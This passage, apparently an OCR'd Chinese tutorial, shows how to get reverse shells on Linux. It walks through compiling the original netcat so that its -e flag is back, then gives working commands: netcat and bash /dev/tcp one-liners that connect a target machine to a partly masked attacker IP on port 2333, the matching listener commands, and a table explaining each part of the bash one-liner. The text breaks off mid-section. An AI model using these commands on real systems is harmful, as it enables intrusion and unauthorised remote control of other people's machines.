### 利用netcat反弹shell

Netcat 是一款简单的Unix工具，使用UDP和TCP协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

目前，默认的各个linux发行版本已经自带了netcat工具包，但是可能由于处于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e 都被阉割了，所以我们需要自己手动下载二进制安装包，安装的如下：

wget [https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz](https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz)  
tar -xvzf netcat-0.7.1.tar.gz  
./configure  
make && make install  
make clean   

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。
攻击机开启本地监听：
netcat -lvvp 2333  
 
目标机主动连接攻击机：
netcat 47.xxx.xxx.72 2333 -e /bin/bash  
nc <攻击机IP> <攻击机监听的端口> -e /bin/bash   

### 利用Bash反弹shell

个人感觉反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：

bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1  
或  
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"  
bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1  

以下是针对Bash反弹一句话进行了拆分说明：

命令命令详解：

|   |   |
|---|---|
|||
|bash -i|产生一个bash交互环境。|
|>&|将联合符号前面的内容与后面相结合，然后一起重定向给后者。|
|/dev/tcp/47.xxx.xxx.72/2333|Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。|
|0>&1|将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。|

Bash反弹一句完整的解读过程就是：

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

